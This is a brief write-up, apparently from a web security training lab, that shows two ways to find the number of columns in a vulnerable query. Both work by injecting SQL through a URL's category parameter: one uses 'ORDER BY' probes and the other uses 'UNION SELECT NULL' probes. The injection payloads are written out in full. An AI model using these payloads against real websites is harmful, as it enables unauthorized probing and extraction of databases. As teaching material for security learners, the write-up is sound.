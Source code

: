 1. First way:
```
/filter?category=Gifts' ORDER BY 1--
/filter?category=Gifts' ORDER BY 2--
/filter?category=Gifts' ORDER BY 3--
/filter?category=Gifts' ORDER BY 4--
```

- We received an internal server error with **ORDER BY 4--** query. Therefore, the number of columns is 3.

2. Second way:
```
/filter?category=Gift' UNION SELECT NULL-- 
/filter?category=Gift' UNION SELECT NULL,NULL--
/filter?category=Gift' UNION SELECT NULL,NULL,NULL--
```

We always get error until the third query. Therefore, the number of column is 3.